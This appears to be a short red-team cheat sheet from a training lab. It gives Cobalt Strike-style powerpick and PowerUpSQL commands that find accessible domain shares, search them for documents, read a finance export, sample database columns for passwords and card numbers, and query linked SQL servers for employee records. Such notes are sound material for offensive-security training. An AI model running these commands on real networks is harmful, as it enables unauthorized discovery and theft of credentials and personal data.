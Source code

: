 # Finding domain shares

```bash
powerpick Find-DomainShare -CheckShareAccess
```

---

# Finding Interesting Files

```bash
powerpick Find-InterestingDomainShareFile -Include *.doc*, *.xls*, *.csv, *.ppt*
powerpick Get-Content \\fs.dev.cyberbotic.io\finance$\export.csv | select -first 5
```

---

# Finding Interesting data via PowerUpSQL

```bash

powerpick Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "email,address,credit,card,user,username,password" -SampleSize 5 | select instance, database, column, sample | ft -autosize

```

---

Find tables where you have direct access

```bash
powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select * from information_schema.tables')"
powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select top 5 first_name,gender,sort_code from master.dbo.employees')"
```
